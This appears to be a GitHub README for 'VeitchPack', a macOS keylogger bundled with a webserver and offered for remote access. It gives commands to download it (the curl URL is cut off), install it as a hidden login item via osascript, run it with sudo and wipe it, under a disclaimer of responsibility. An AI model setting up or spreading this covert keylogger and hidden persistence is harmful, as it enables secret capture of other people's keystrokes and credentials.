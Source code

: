 # VeitchPack #
A keylogger bundled with a webserver. For remote access goodies on OSX... best done via ssh.

**DISCLAIMER: I AM NOT RESPONSIBLE FOR ANY DAMAGE CAUSE BY THIS SOFTWARE. PROCEED TO USE AT YOUR OWN RISK. I WILL NOT BE HELD LIABLE.**
### Download ###
~~~~
curl -o "VeitchPack.zip" s
unzip VeitchPack.zip
~~~~

### Add to Startup Menu ###
~~~~
echo `pwd`/`ls launch.command`
osascript -e 'tell application "System Events" to make login item at end with properties {path:"PATH_HERE", hidden:true}'
~~~~

### Run ###
~~~~
sudo ./launch.command
~~~~

### Wipe ###
~~~~
sudo ./wipe.command
~~~~
